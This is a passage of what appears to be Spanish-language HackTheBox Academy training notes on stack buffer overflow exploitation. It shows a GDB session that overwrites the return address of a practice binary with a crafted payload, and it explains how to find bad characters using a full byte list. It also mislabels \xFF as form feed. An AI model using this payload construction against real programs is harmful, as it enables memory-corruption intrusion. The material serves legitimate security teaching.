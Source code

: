 #### GDB

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

![imagen](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_7.png)

## Identifications of Bad Characters

Anteriormente, en los sistemas operativos tipo UNIX, los binarios comenzaban con dos bytes que contenían un " `magic number`" que determinaba el tipo de archivo. Al principio, esto se usaba para identificar archivos de objetos para diferentes plataformas. Poco a poco, este concepto se trasladó a otros archivos y ahora casi todos los archivos contienen un número mágico.

Estos caracteres reservados también existen en las aplicaciones, pero no siempre aparecen ni son siempre los mismos. Estos caracteres reservados, también conocidos como `bad characters`pueden variar, pero a menudo veremos caracteres como estos:

- `\x00`- Byte nulo
- `\x0A`- Avance de línea
- `\x0D`- Retorno de carro
- `\xFF`- Feed de formulario

Aquí usamos la siguiente lista de caracteres para descubrir todos los caracteres que debemos considerar y evitar al generar nuestro shellcode.

```shell-session
0xRh4ps00dy@htb[/htb]$ CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

#### Calcular longitud de CHARS

Para calcular la cantidad de bytes en nuestra variable CHARS, podemos usar bash reemplazando "\x" con espacio y luego usar `wc`para contar las palabras.
